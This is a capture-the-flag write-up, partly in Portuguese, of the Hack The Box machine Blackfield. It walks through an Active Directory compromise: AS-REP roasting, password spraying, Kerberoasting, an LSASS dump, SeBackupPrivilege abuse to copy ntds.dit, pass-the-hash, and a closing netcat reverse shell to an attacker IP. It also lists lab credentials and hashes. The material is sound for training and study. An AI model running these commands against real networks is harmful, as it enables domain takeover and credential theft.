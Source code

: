 Blackfield
========================

![qownnotes-media-mCrkDI](teste/qownnotes-media-mCrkDI.png)

DNS

![qownnotes-media-dgSmXh](../../.gitbook/assets/qownnotes-media-dgSmXh.png)

Kerberos (88)

RPC (135/593)

![qownnotes-media-BPEaBn](../../.gitbook/assets/qownnotes-media-BPEaBn.png)

SMB

![qownnotes-media-NmDyiC](../../.gitbook/assets/qownnotes-media-NmDyiC.png)

    impacket-lookupsid blackfield.local@10.10.10.192

![qownnotes-media-RQJgHM](../../.gitbook/assets/qownnotes-media-RQJgHM.png)

![qownnotes-media-FhwUbl](../../.gitbook/assets/qownnotes-media-FhwUbl.png)

![qownnotes-media-ORXbBb](../../.gitbook/assets/qownnotes-media-ORXbBb.png)

Valid usernames:
```
cat valid_users.txt                             
audit2020
svc_backup
support
lydericlefebvre
```

    impacket-GetNPUsers -request blackfield.local/ -usersfile valid_users.txt -dc-ip 10.10.10.192

![qownnotes-media-qIAMGO](../../.gitbook/assets/qownnotes-media-qIAMGO.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt svc_backup_hash.txt



LDAP (389/3268)

![qownnotes-media-JfBrKY](../../.gitbook/assets/qownnotes-media-JfBrKY.png)


## Exploitation

Creds:

support:#00^BlackKnight

### Password spray

    crackmapexec smb 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

![qownnotes-media-ZSgQkd](../../.gitbook/assets/qownnotes-media-ZSgQkd.png)

    kerbrute passwordspray -d blackfield.local --dc dc01.blackfield.local valid_users.txt '#00^BlackKnight'

### Shares Enumeration Authenticated

    crackmapexec smb 10.10.10.192 -u support -p passwords.txt --shares

![qownnotes-media-GpUPaM](../../.gitbook/assets/qownnotes-media-GpUPaM.png)

    enum4linux -u support -p '#00^BlackKnight' -a -A 10.10.10.192

Obtive outros usuários

### SPNs Kerberoasting

    impacket-GetUserSPNs -request blackfield.local/support:#00^BlackKnight -dc-ip 10.10.10.192

### Domain Enumeration with bloodhound

Aqui temos algumas coisas interessantes para olhar. Vamos considerar o seguinte:

GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group

Isso pode ser visto nesta sessão do bloodhound:

![qownnotes-media-VpIkpQ](../../.gitbook/assets/qownnotes-media-VpIkpQ.png)

Caso contrário, podemos considerar algumas opções ainda no bloodhound, tais como:

Setar todos os demais usuários como "High Value" e verificar no filtro como fazer para encontrá-lo nas análises e filtros do bloodhound, conforme eu já faço.

Aqui eu notei que o ataque pode ocorrer devido a uma permissão vista conforme o print que tirei acima:

![qownnotes-media-DbfaCf](../../.gitbook/assets/qownnotes-media-DbfaCf.png)

ou 

![qownnotes-media-hjpSiZ](../../.gitbook/assets/qownnotes-media-hjpSiZ.png)

![qownnotes-media-Bytuhu](../../.gitbook/assets/qownnotes-media-Bytuhu.png)


### rpcclient

    rpcclient -U blackfield.local/support 10.10.10.192
    setuserinfo2 audit2020 23 P@ssword!

Agora a gente faz uma nova enumeração de shares e encontramos informações que nos ajudaram a entrar como o svc_backup na máquina:

![qownnotes-media-FvwmuB](../../.gitbook/assets/qownnotes-media-FvwmuB.png)

![qownnotes-media-SSgLdY](../../.gitbook/assets/qownnotes-media-SSgLdY.png)

Baixei esses arquivos, mas o que fez realmente a diferença foi o de memória, onde peguei o LSASS da máquina e fiz o dump da memória com pypykatz:

    pypykatz lsa minidump lsass.DMP

![qownnotes-media-FKKKEa](../../.gitbook/assets/qownnotes-media-FKKKEa.png)

    evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## PrivEsc

Aqui um aprendizado novo!!!

![qownnotes-media-wuUvdy](../../.gitbook/assets/qownnotes-media-wuUvdy.png)

com a permissão de SeBackupPrivilege dá pra conseguir fazer a cópia dos arquivos mais sensíveis do sistema, tais como o system e a sam, a considerar uma máquina fora do domínio podemos prosseguir com os seguintes comandos:

    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system

Mas para o caso do Domain Controller, temos de considerar os seguintes comandos:

Criar um arquivo, cujo extensão tem de ser  ".dsh"

    cat test.dsh
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

    unix2dos test.dsh

Subir para a máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    reg save hklm\system c:\Temp\system
Se atentar somente ao diretório direitinho no qual se está operando:
Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-CfcHGG](../../.gitbook/assets/qownnotes-media-CfcHGG.png)

    impacket-psexec administrator@10.10.10.192 -hashes :184fb5e5178480be64824d4cd53b99ee

    evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Subi o psexec para a máquina e o netcat e fiz a shell para system dessa forma:

    .\pe.exe -accepteula -i -s -d c:\temp\n.exe -e powershell 10.10.14.14 8082
 
![qownnotes-media-bFWfpH](../../.gitbook/assets/qownnotes-media-bFWfpH.png)